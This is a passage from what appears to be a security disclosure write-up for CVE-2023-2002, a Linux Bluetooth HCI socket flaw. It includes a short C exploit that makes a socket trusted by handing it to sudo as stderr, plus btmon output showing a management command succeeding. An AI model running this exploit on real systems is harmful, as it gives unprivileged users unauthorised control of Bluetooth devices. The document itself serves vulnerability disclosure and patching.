The ioctl calls for tty parameters will never succeed on HCI sockets, but they
are sufficient to mark HCI sockets as trusted. Therefore, an unprivileged
program can hold trusted HCI sockets, enabling it to send and receive
management commands and events, since the trusted flag will never be cleared.

## Exploit

The exploitation can be as easy as below:
```c
	int fd = socket(PF_BLUETOOTH, SOCK_RAW, BTPROTO_HCI);

	/* By executing sudo with an HCI socket as stderr, an ioctl
	 * system call makes the HCI socket privileged (i.e. with
	 * the HCI_SOCK_TRUSTED flag set).
	 */
	int pid = fork();
	if (pid == 0) {
		dup2(fd, 2);
		close(fd);
		execlp("sudo", "sudo", NULL);
	}

	waitpid(pid, NULL, 0);

	struct sockaddr_hci haddr;
	haddr.hci_family = AF_BLUETOOTH;
	haddr.hci_dev = HCI_DEV_NONE;
	haddr.hci_channel = HCI_CHANNEL_CONTROL;

	/* The socket has not been bound. It can be bound to the
	 * management channel now. After that, the HCI_SOCK_TRUSTED
	 * flag is still present, as it will indeed never be cleared.
	 */
	bind(fd, (struct sockaddr *)&haddr, sizeof(haddr));
```

Furthermore, btmon can be used to confirm that the socket becomes trusted and
successive management commands will succeed:
```
# btmon
@ RAW Open: sudo (privileged) version 2.22
@ RAW Close: sudo
@ MGMT Open: sudo (privileged) version 1.22
@ MGMT Command: Set Powered (0x0005) plen 1
        Powered: Disabled (0x00)
@ MGMT Event: Command Complete (0x0001) plen 7
      Set Powered (0x0005) plen 4
        Status: Success (0x00)
```

A full PoC exploit to change the power state of Bluetooth devices can be found
[on GitHub][exp].


[exp]: https://github.com/lrh2000/CVE-2023-2002/tree/master/exp
[cm]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=f81f5b2db869
[su]: https://source.android.com/docs/security/enhancements/enhancements43
[fi]: https://lore.kernel.org/linux-bluetooth/20230416081404.8227-1-lrh2000@pku.edu.cn
[se]: https://lore.kernel.org/linux-bluetooth/20230416080251.7717-1-lrh2000@pku.edu.cn
[c14]: https://nvd.nist.gov/vuln/detail/CVE-2014-0181
[oss]: https://www.openwall.com/lists/oss-security/2023/04/16/3